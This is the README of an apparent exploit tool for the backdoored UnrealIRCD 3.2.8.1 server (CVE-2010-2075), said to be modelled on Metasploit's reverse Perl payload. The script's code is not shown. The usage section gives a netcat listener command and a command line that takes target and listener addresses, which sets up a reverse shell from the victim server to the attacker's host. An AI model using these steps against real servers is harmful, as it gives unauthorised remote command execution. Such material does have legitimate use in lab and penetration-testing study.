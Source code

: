 # UnrealIRCD 3.2.8.1 Backdoor Command Execution
UnrealIRCD 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCD](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

I referenced the Metasploit payload `payload/cmd/unix/reverse_perl` to make this script. 

# Usage
Start a Netcat listener on the listening host:
```
nc -lp 4444
```

Execute the script, providing the following arguments:
- Target host IP address.
- Target host port number.
- Listening host IP address.
- Listening host port number.
```
python3 script.py <target> <port> <listener> <port>
```
